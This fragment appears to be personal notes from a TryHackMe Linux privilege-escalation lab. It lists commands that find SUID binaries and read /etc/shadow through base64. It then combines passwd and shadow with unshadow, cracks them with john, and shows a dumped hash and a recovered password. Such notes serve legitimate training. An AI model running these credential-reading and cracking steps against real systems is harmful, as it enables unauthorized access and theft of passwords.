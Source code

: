 ```bash
sudo less /etc/shadow
```

> `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`

## Privilege Escalation: SUID

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

If you have the /etc/shadow and /etc/passwd:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

To create a hash value for passwd:

```bash
openssl passwd -1 -salt <THM> <password1>
```

| Title | IP Address |
| :---- | :---- |
| LinPrivEscSUID | 10.10.205.16 |

```bash
cat /etc/passwd
```

> `gerryconway:x:1001:1001::/home/gerryconway:/bin/sh`

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```

Copy to `shadow`:

```bash
cat /ect/passwd
```

Copy to `passwd`:


```bash
unshadow passwd shadow > passwords
```

```bash
john passwords
```

> `Password1 (user2)`

```bash
find -type f -name flag3.txt 2>/dev/null
```
